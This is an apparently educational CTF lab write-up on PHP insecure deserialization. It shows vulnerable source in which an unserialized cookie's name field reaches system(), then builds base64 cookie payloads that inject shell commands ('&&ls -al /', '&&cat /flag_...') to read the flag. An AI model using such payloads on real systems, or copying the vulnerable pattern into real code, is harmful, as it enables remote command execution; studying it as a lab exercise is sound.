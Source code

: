 ```yaml
---
title: Simple Web 0x17(Lab - Baby Cat)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x17(Lab - Baby Cat)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8601/

## Background
[0x16.5(php unserialize)](/FkF8p-zrSMSOWFkE4vvAJQ)

## Source code
:::spoiler code
```php=
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

if (!isset($_COOKIE['cat_session'])) {
    $cat = new Cat("cat_" . rand(0, 0xffff));
    setcookie('cat_session', base64_encode(serialize($cat)));
} else {
    $cat = unserialize(base64_decode($_COOKIE['cat_session']));
}
?>
<p>Hello, <?= $cat->name ?>.</p>
<a href="/?source">source code</a>
```
:::

## Exploit - deserialize
1. Use psysh to test payload
In local side, if you haven't install `cowsay`, the payload should be `'||ls -al'`
    ```bash!
    $ ./psysh
    > system("cowsay 'Welcome back, '||pwd''");
    sh: 1: cowsay: not found
    /home/sbk6401
    = "/home/sbk6401"
    ```
2. Construct testing case
    ```bash!
    $ ./psysh
    > class Cat{
    . public $name = '(guest cat)';
    . function __construct($name){$this->name = $name;}
    . function __wakeup(){system("cowsay 'Welcome back, $this->name'");}}
    > $cat = new Cat("'&&ls -al /'")
    = Cat {#2785
        +name: "'&&ls -al /'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9"
    ```
    Then change`cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9` and we'll get the response
    ![](https://i.imgur.com/oTHtA0U.png)

3. Get flag
    ```bash!
    > $cat = new Cat("'&&cat /flag_5fb2acebf1d0c558'")
    = Cat {#2789
        +name: "'&&cat /flag_5fb2acebf1d0c558'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9"
    ```
    Again! Modify `cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9` then we'll get flag
    ![](https://i.imgur.com/y5HHWDZ.png)